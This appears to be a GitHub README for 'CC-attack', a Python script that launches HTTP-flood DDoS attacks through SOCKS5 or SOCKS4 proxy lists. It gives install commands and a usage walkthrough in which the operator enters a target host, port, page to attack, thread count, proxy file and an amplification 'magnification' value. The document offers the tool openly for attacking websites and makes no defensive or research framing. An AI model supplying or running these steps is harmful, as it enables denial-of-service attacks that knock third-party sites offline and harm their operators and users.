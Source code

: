       ____ ____        _   _   _             _
     / ___/ ___|      / \ | |_| |_ __ _  ___| | __
    | |  | |   _____ / _ \| __| __/ _` |/ __| |/ /
    | |__| |__|_____/ ___ \ |_| || (_| | (__|   <
     \____\____|   /_/   \_\__|\__\__,_|\___|_|\_\

# CC-attack ![](https://img.shields.io/badge/Version-1.2.1-brightgreen.svg) ![](https://img.shields.io/badge/license-MIT-blue.svg)
Use Socks5 proxy to ddos(Http-Flood) attack.

(It supports socks4 too,but the best choice is using socks5)

And now it is upgraded to python3 version.

# License

MIT License

## News

Now the script support https. :)

And now you don't need to fill in "Page you want to attack:".

## Install

    pip3 install pysocks
    git clone https://github.com/Leeon123/CC-attack.git
    cd CC-attack

## Usage

If target = http://xxx.com/:

    python3 cc.py
    
      ____ ____        _   _   _             _
     / ___/ ___|      / \ | |_| |_ __ _  ___| | __
    | |  | |   _____ / _ \| __| __/ _` |/ __| |/ /
    | |__| |__|_____/ ___ \ |_| || (_| | (__|   <
     \____\____|   /_/   \_\__|\__\__,_|\___|_|\_\
    Python3 version 1.2.1 (Support Https)
                                Cobed by Leeon123
    >---------------------------------------------<
                If you want to stop
               this script, pls just
                 close the window.
    >---------------------------------------------<
    > Host/Ip:xxx.com
    > Https(y/n):n
    > Page you want to attack(default=/):/
    > Port(Https default is 443):80
    > Threads:300
    > Proxy file path(proxy.txt):(Your socks5 list)
    > Number Of Proxies:(your proxies number)
    > Input the Magnification:(50-100)
